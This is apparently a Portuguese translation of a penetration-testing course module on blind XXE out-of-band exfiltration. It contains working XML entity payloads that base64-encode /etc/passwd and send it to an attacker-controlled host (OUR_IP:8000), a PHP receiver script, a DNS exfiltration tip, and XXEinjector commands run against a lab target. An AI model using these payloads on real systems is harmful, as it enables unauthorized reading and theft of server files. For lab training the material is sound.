

# exfiltração cega de dados

Na seção anterior, vimos um exemplo de vulnerabilidade cega XXE, onde não recebemos nenhuma saída contendo nenhuma de nossas entidades de entrada XML. Como o servidor web exibia erros de execução do PHP, poderíamos usar essa falha para ler o conteúdo dos arquivos a partir dos erros exibidos. Nesta seção, veremos como podemos obter o conteúdo dos arquivos em uma situação completamente cega, onde não obtemos a saída de nenhuma das entidades XML nem exibimos nenhum erro de PHP.

## Exfiltração de dados fora de banda

Se tentarmos repetir qualquer um dos métodos com o exercício que encontramos em ``/blind``, perceberemos rapidamente que nenhum deles parece funcionar, pois não temos como imprimir nada na resposta da aplicação web. Para tais casos, podemos utilizar um método conhecido como Out-of-band (OOB) Data Exfiltration, que é frequentemente usado em casos cegos semelhantes com muitos ataques da web, como injeções cegas de SQL, injeções cegas de comando, XSS cego e, claro, XXE cego. Os módulos ``Cross-Site Scripting (XSS)`` e ``Whitebox Pentesting 101: Command Injections`` discutiram ataques semelhantes, e aqui utilizaremos um ataque semelhante, com pequenas modificações para se adequar à nossa vulnerabilidade XXE.

Em nossos ataques anteriores, utilizamos um ataque ``out-of-band`` porque hospedamos o arquivo DTD em nossa máquina e fizemos com que o aplicativo da web se conectasse a nós (portanto, fora da banda). Então, nosso ataque desta vez será bem parecido, com uma diferença significativa. Em vez de fazer com que o aplicativo da web envie nossa entidade ``file`` para uma entidade XML específica, faremos com que o aplicativo da web envie uma solicitação da web ao nosso servidor da web com o conteúdo do arquivo que estamos lendo.

Para fazer isso, podemos primeiro usar uma entidade de parâmetro para o conteúdo do arquivo que estamos lendo enquanto utilizamos o filtro PHP para codificá-lo em base64. Em seguida, criaremos outra entidade de parâmetro externo e referenciá-la ao nosso IP, e colocaremos o valor do parâmetro do arquivo como parte da URL que está sendo solicitada via HTTP, da seguinte forma:

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```

Se, por exemplo, o arquivo que queremos ler tivesse o conteúdo ``XXE_SAMPLE_DATA``, então o parâmetro ``file`` conteria seus dados codificados em base64 (``WFhFX1NBTVBMRV9EQVRB``). Quando o XML tentar fazer referência ao parâmetro ``oob`` externo de nossa máquina, ele solicitará ``http://OUR_IP:8000/?content=WFhFX1NBTVBMRV9EQVRB``. Finalmente, podemos decodificar a string ``WFhFX1NBTVBMRV9EQVRB`` para obter o conteúdo do arquivo. Podemos até escrever um script PHP simples que detecte automaticamente o conteúdo do arquivo codificado, decodifique-o e envie-o para o terminal:

```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

Portanto, primeiro escreveremos o código PHP acima em ``index.php`` e, em seguida, iniciaremos um servidor PHP na porta ``8000``, da seguinte forma:

```sh
NycolasES6@htb[/htb]$ vi index.php # here we write the above PHP code
NycolasES6@htb[/htb]$ php -S 0.0.0.0:8000
```

Agora, para iniciar nosso ataque, podemos usar um payload semelhante ao que usamos no ataque baseado em erro, e simplesmente adicionar ``<root>&content;</root>``, que é necessário para referenciar nossa entidade e fazer com que ela envie a solicitação para nossa máquina com o conteúdo do arquivo:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

Então, podemos enviar nossa solicitação para a aplicação web:



Finalmente, podemos voltar ao nosso terminal e veremos que realmente recebemos a solicitação e seu conteúdo decodificado:

```bash
PHP 7.4.3 Development Server (http://0.0.0.0:8000) started
10.10.14.16:46256 Accepted
10.10.14.16:46256 [200]: (null) /xxe.dtd
10.10.14.16:46256 Closing
10.10.14.16:46258 Accepted

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...SNIP...
```

> Dica: além de armazenar nossos dados codificados em base64 como parâmetro para nosso URL, podemos utilizar a exfiltração DNS OOB colocando os dados codificados como um subdomínio para nosso URL (por exemplo, ENCODEDTEXT.our.website.com) e, em seguida, usar uma ferramenta como o ``tcpdump`` para capturar qualquer tráfego de entrada e decodificar a string do subdomínio para obter os dados. É verdade que esse método é mais avançado e requer mais esforço para exfiltrar os dados.

## Exfiltração OOB automatizada

Embora em alguns casos possamos ter que usar o método manual que aprendemos acima, em muitos outros casos, podemos automatizar o processo de exfiltração cega de dados XXE com ferramentas. Uma dessas ferramentas é o ``XXEinjector``. Esta ferramenta oferece suporte à maioria dos truques que aprendemos neste módulo, incluindo XXE básico, exfiltração de fonte ``CDATA``, ``XXE baseado em erro`` e ``OOB XXE cego``.

Para usar esta ferramenta para exfiltração OOB automatizada, podemos primeiro clonar a ferramenta em nossa máquina, da seguinte forma:

```bash
NycolasES6@htb[/htb]$ git clone https://github.com/enjoiz/XXEinjector.git

Cloning into 'XXEinjector'...
...SNIP...
```

Assim que tivermos a ferramenta, podemos copiar a solicitação HTTP do Burp e gravá-la em um arquivo para uso da ferramenta. Não devemos incluir os dados XML completos, apenas a primeira linha, e escrever ``XXEINJECT`` depois dela como um localizador de posição para a ferramenta:

```http
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```

Agora, podemos executar a ferramenta com os sinalizadores ``--host``/``--httpport`` sendo nosso IP e porta, o sinalizador ``--file`` sendo o arquivo que escrevemos acima e o sinalizador ``--path`` sendo o arquivo que queremos ler. Também selecionaremos os sinalizadores ``--oob=http`` e ``--phpfilter`` para repetir o ataque OOB que fizemos acima, como segue:

```bash
NycolasES6@htb[/htb]$ ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter

...SNIP...
[+] Sending request with malicious XML.
[+] Responding with XML for: /etc/passwd
[+] Retrieved data:
```

Vemos que a ferramenta não imprimiu os dados diretamente. Isso ocorre porque codificamos os dados em base64, para que eles não sejam impressos. De qualquer forma, todos os arquivos exfiltrados são armazenados na pasta de ``Logs`` da ferramenta, e podemos encontrar nosso arquivo lá:

```bash
NycolasES6@htb[/htb]$ cat Logs/10.129.201.94/etc/passwd.log 

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...SNIP..
```


